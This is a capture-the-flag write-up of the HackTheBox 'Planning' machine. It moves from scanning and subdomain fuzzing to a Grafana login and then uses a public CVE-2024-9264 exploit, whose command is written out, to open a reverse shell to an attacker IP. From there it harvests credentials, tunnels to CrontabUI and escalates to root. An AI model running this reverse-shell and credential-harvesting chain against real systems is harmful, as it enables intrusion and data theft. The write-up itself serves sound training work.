

## Overview

This is a machine on HackTheBox, the OS is Linux and is described as below:
```
Machine Information

As is common in real life pentests, you will start the Planning box with credentials for the following account: admin / 0D5oT70Fq13EvB5r
```
## Enumerate

After connecting via openvpn, I used `rustscan` to scan for open ports on the machine:

```bash
┌──(venv)─(vuxnx㉿vuxnx)-[~/Documents/HTB]
└─$ rustscan -a 10.129.73.32                                                                                                                                                              
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/vuxnx/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.73.32:22
Open 10.129.73.32:80
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-16 23:24 EDT
Initiating Ping Scan at 23:24
Scanning 10.129.73.32 [4 ports]
Completed Ping Scan at 23:24, 0.21s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 23:24
Scanning planning.htb (10.129.73.32) [2 ports]
Discovered open port 80/tcp on 10.129.73.32
Discovered open port 22/tcp on 10.129.73.32
Completed SYN Stealth Scan at 23:24, 0.22s elapsed (2 total ports)
Nmap scan report for planning.htb (10.129.73.32)
Host is up, received echo-reply ttl 63 (0.18s latency).
Scanned at 2025-08-16 23:24:33 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```
With my experience, most machines with these open ports will have a CVE related to RCE on port 80, which can then be used to obtain the necessary credentials for SSH. Alright, let's get started.

When accessing the IP address `10.129.73.32` via browser, the browser reported that the domain name `planning.htb` could not be resolved. Simple, we just need to add this domain to `/etc/hosts`. And, based on experience, 99% of machines like this will require subdomain fuzzing.

Using `ffuf` to fuzz with a response length filter of 178, we found a subdomain `grafana`. Adding this subdomain to `/etc/hosts` and accessing it directly via browser, we can see the Grafana admin login page.



Using the credentials we have, `admin / 0D5oT70Fq13EvB5r`, to log in, Bingo, we have access to the Grafana admin dashboard.

## First exploit

As mentioned earlier, this platform definitely has a CVE leading to RCE. A quick search using `Perplexity` revealed `CVE-2024-9264`:
```
The SQL Expressions experimental feature of Grafana allows for the evaluation of `duckdb` queries containing user input. These queries are insufficiently sanitized before being passed to `duckdb`, leading to a command injection and local file inclusion vulnerability. Any user with the VIEWER or higher permission is capable of executing this attack. The `duckdb` binary must be present in Grafana's $PATH for this attack to function; by default, this binary is not installed in Grafana distributions.
```
Further searching, we found a PoC at [repo](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/tree/main). This repo allows us to establish a reverse shell on our machine. Here, I will set up a reverse shell using `pwncat`:
```
pwncat-cs -lp 4444
```

and run this PoC:
```
python poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.12 --reverse-port 4444
```

Bingo, once again, we are closer to the flag.

## Root ?

I was quite surprised because as soon as I got in via the reverse shell, I already had root privileges (?). 
```bash
(remote) root@7ce659d667d7:/usr/share/grafana# id
uid=0(root) gid=0(root) groups=0(root)
```

Searching for `user.txt`, I found nothing, it seems this is just bait. Okay, as a habit, I ran `linpeas.sh` on the victim machine. The results were quite intriguing. During this process, I also found another set of credentials in the `env`:
```bash
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```
But, what do we use these credentials for? Again, SSH is our ultimate destination. Trying to connect via SSH, we successfully logged in as `enzo`.

### User flag

At this point, we can find the user flag in `/home/enzo/user.txt`

## Continue...

Still setting up and running `linpeas.sh`, I found an unusual path in the crontabs: `/opt/crontabs/crontab.db`. Reading it, we found:

```bash
enzo@planning:~$ cat /opt/crontabs/crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```
And, this is a promising PE direction. 

I tried to check if those backup files contained anything, but the results were not very fruitful - they hadn't been backed up yet. And we found another set of credentials `root:P4ssw0rdS0pRi0T3c`. But where do we use these credentials? This part took me the most time.

After some searching, I remembered SSH local tunneling, could there be any ports open internally? A quick check revealed:
```bash
enzo@planning:~$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:34373         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -              
```

And here, the service on port 8000 is the one we need. Setting up an SSH local tunnel using enzo's credentials, we were brought to a login form. Trying the credentials `root:P4ssw0rdS0pRi0T3c`, we were taken to the CrontabUI page.


### Root flag
At this point, everything seems easier. We can retrieve the root.txt by creating a new cronjob that pipes the content of `/root/root.txt` to `/tmp/tmp.txt`.


